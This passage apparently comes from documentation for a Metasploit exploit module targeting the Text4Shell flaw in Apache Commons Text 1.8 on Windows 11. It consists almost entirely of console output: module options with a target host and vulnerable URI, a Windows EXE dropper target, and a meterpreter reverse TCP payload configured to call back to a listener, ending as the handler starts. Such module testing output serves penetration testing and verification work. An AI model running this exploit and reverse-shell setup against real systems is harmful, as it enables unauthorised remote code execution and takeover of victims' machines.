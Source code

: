 ```
[*] Server stopped.

meterpreter >
```

### Apache Commons Text 1.8 on Windows 11 home JDK 14.0.2

Target: Windows EXE Dropper
```
msf6 exploit(multi/http/apache_commons_text4shell) > options

Module options (exploit/multi/http/apache_commons_text4shell):

   Name       Current Setting    Required  Description
   ----       ---------------    --------  -----------
   METHOD     GET                yes       The HTTP method to use (Accepted: GET, POST)
   PARAM      search             yes       The vulnerable parameter
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.160.1       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080               yes       The target port (TCP)
   SSL        false              no        Negotiate SSL/TLS for outgoing connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  text4shell/attack  yes       The target URI
   URIPATH                       no        The URI to use for this exploit (default is random)
   VHOST                         no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen
                                        on all addresses.
   SRVPORT  5000             yes       The local port to listen on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.18.168.145   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows EXE Dropper



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/apache_commons_text4shell) > run

[*] Started reverse TCP handler on 172.18.168.145:4444
```